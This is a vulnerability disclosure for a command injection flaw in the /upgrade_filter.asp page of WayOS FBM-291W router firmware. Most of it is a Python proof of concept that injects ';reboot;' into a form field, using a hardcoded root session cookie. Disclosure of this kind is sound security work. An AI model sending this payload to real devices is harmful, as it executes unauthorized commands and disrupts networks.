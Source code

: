 # FBM-291W-19.09.11V **Command Injection**

## Firmware information

- Manufacturer's address: https://www.wayos.com/
- Firmware download address: https://drive.weixin.qq.com/s?k=ANgAJAcRAAcJQcZsqk#/preview?fileId=s.1970324955538648.649217589iNQ_f.677141204X86O

## Affected version

![1](https://gitee.com/blogyoulin/img/raw/master/images/202307061654721.png)

## Vulnerability details

![image-20230706165555929](https://gitee.com/blogyoulin/img/raw/master/images/202307061655041.png)

In /upgrade_filter.asp, There is command injection

## Poc

```
import requests
from pwn import *

cmd=b"echo success_pwn_it"

#payload=b'http://'+b'A'*0x1000
payload=b';reboot;'

url = "http://192.168.0.1/upgrade_filter.asp"
cookie={"Cookie":"language=zh; userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B"}
data = {"path": payload}
response = requests.post(url,cookies=cookie,data=data)
#response = requests.post(url,cookies=cookie,data=data)
print(response.text)
```

